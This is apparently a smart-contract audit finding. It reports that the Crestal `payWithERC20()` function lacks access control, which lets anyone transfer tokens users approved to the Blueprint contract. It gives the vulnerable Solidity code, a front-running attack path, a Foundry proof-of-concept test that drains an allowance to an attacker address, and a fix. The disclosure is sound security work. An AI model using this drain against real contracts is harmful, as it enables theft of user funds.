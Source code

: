 Warm Basil Yak

High

# Attacker can steal approved tokens for `Blueprint` contract

### Summary
The `payWithERC20()` function in `Payment` contract is external and has no access control. this issue can lead to stealing users approved tokens from `Blueprint` contract.


```solidity

function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }

```
https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/Payment.sol#L25


### Root Cause

.

### Internal Pre-conditions

.

### External Pre-conditions

.

### Attack Path

Attack scenario:
- User want to call `userTopUp()` function
- User firstly approve to contract with X amount
- Attacker front-run user `userTopUp()` function call
- Now attacker simply transferred User X amount to own wallet

Also, users might have allowances to the contract and any allowances to contract can steal by attackers.

### Impact

Attacker can steal users approved tokens.

### PoC

function test_poc() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";

        // Generate the signature
        (bytes memory signature, address signerAddress) = generateSignature(projectId, base64Proposal, serverURL);

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // set zero cost for create agents, use any number less than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), 0);

        // Expect the createAgent event
        vm.expectEmit(true, false, true, true);
        emit BlueprintCore.CreateAgent(projectId, "fake", signerAddress, 0, 0);

        // Create agent with token
        blueprint.createAgentWithTokenWithSig(
            projectId, base64Proposal, workerAddress, serverURL, address(mockToken), signature
        );

        bytes32 latestProjId = blueprint.getLatestUserProjectID(signerAddress);
        assertEq(projectId, latestProjId);

        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;

        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

        mockToken.mint(address(this), validTokenAmount);

        // Verify the mint
        uint256 balance = mockToken.balanceOf(address(this));
        assertEq(balance, validTokenAmount, "sender does not have the correct token balance");

        // check LogApproveEvent
        vm.expectEmit(true, true, false, true);
        emit MockERC20.LogApproval(address(this), address(blueprint), validTokenAmount);

        // Approve the blueprint contract to spend tokens directly from the test contract
        mockToken.approve(address(blueprint), validTokenAmount);

        // check allowance after approve
        uint256 allowance = mockToken.allowance(address(this), address(blueprint));
        assertEq(allowance, validTokenAmount, "sender does not have the correct token allowance");

        //Attacker
        address attacker = makeAddr("attacker");
        blueprint.payWithERC20(address(mockToken), 100e18, address(this), attacker);

        console.log(mockToken.balanceOf(address(attacker)));
        console.log(mockToken.balanceOf(address(this)));
    }

### Mitigation

Consider changing `payWithERC20()` function to `internal` function instead of `external`.